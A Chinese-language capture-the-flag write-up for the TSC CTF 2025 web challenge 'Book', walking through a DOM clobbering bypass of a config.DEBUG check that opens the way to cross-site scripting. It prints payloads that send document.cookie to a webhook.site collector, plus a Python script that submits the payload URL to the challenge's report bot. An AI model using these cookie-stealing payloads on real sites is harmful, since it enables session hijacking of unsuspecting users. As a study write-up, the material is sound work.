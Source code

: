 ##### tags:`TSC_CTF_2025`

# TSC CTF Web：Book

<style>
.red {
  color: red;
}
.blue {
  color: blue;
}
.purple {
  color: #7D3382;
}
.light_purple {
  color: #810cf5;
}
</style>

## <span class="red">**題目**</span>

- **網頁原始碼**
- ![image](https://hackmd.io/_uploads/rkbWr1dvJg.png)
- **```main.py```**
- ![image](https://hackmd.io/_uploads/HJwfpOriye.png)
- ![image](https://hackmd.io/_uploads/S1Skyuvt1x.png)
- **```app.js```**
- ![image](https://hackmd.io/_uploads/SkL-yuPtJl.png)
- **```bot.js```**
- ![image](https://hackmd.io/_uploads/BJb7k_DKJl.png)

&emsp;

## <span class="red">**解題過程 (After Event)**</span>

1. **首先從<span class="blue">網頁原始碼</span>的部分開始理解：**
    (1) **```atob()``` ： 把經過 ```btoa()``` (將內容進行 base64 編碼)傳送後的資料進行 base64 解碼**
    
    (2) **```DOMPurify.sanitize()``` ： 將內容進行過濾，清除危險的標籤以及屬性以及避免 ```DOM Clobbering```**

&emsp;

2. **這題應該與 ```atob()``` 函式沒有關係，因為題目中出現了為了防範 ```DOM Clobbering``` ，所以猜測目標應該是想辦法實現 ```DOM Clobbering```**

3. **首先必須理解的是 ```DOM Clobbering``` 能夠運用的前提必須是<span class="red">可以自訂 HTML</span> ，接著看到程式碼中有一段 if 判斷式，如果判斷式成立就不會檢查 content 的內容，所以這邊嘗試構築出 payload：**

    ```html=
    Title：
        Sth without js code

    Content：
        <form id = "config">
            <input name = "DEBUG" value = true />
        </form>
    ```

    - ![image](https://hackmd.io/_uploads/H1TrgPsDyl.png)

&emsp;

4. **將上面的 payload 輸入後，會發現結果變成 content 內容可以自由更動，但是更動後按下 Enter 出現的畫面看起來是亂碼(推測是經過函數二次解碼後的結果)**

- ![image](https://hackmd.io/_uploads/Hkm48Ljw1g.png)
- ![image](https://hackmd.io/_uploads/ry1II8oD1e.png)

&emsp;

5. **所以我修改一下 payload ，將 Content 的內容更改為**

    ```html=
    Content：
    <a id="config"></a>
        <a id="config" name="DEBUG" href="Your webhook site">clobbered</a>
        <script>
            console.log(config.DEBUG + "document.cookie")
        </script>
    ```

- ![image](https://hackmd.io/_uploads/rJvN5Pjwyx.png)

- **但是在我點擊連結後會發現 webhook 並沒有 fetch 到東西**

&emsp;

6. **仔細看題目的邏輯我才發現，題目會先讀取 Title ，接著檢驗有沒有 ```config.DEBUG``` ，最後才會去讀取 Content 。所以一開始構思 payload 的邏輯有錯，應該要先把 ```config.DEBUG``` 宣告的部分放在 Title ，再把 payload 放在 Content**

    ```html=
    Title：
    <a id="config"></a>
        <a id="config" name="DEBUG">clobbered</a>    

    Content：
    <img src=x: onerror="(new Image).src='<webhook.site>?'+document.cookie">

    <!--OR-->

    Title：
    <form id="config"><input value="clobbered" name="DEBUG"></form>

    Content：
    <svg/onload=fetch("<webhook.site>/?flag="+document.cookie)></script>
    ```
    
    - **```<img>``` 標籤：用於設置無效協議，以此執行 ```onerror``` 內撰寫的 payload**

    - **```<svg>``` 標籤：用於嵌入向量圖形的 HTML 標籤**
    - **```<onload>``` 屬性：是 ```<SVG>``` 或圖片等資源<span class="red">下載完成後</span>會觸發的事件**
    - **```fetch``` 函式：用於發送 HTTP 請求**

&emsp;

7. **接著要利用 bot 去瀏覽寫有 payload 的網站，寫一個 python 的 script 來做操作**

    ```python=
    import requests
    import base64
    import urllib.parse

    url = "http://localhost:8000/"
    attack_server = "https://webhook.site/3f2c0a19-3c53-4c26-a82c-8c3c345f263f"

    #title = '<form id="config"><input value="clobbered" name="DEBUG"></form>'
    title = '<a id="config"></a><a id="config" name="DEBUG">clobbered</a>'
    title = urllib.parse.quote(base64.b64encode(title.encode()).decode())

    #content = f'<svg/onload=fetch("{attack_server}/?flag="+document.cookie)></script>'
    content = f"""<img src=x: onerror="(new Image).src='{attack_server}?'+document.cookie">"""
    content = urllib.parse.quote(base64.b64encode(content.encode()).decode())

    payload = f"http://book/book?title={title}&content={content}"

    print(payload) # Check final payload

    requests.post(
        url + "report",
        data={
            "url": payload,
        },
    )
    ```
    
&emsp;

8. **回到 webhook site 就能看到 flag 了**

- ![image](https://hackmd.io/_uploads/S1H34OOtke.png)
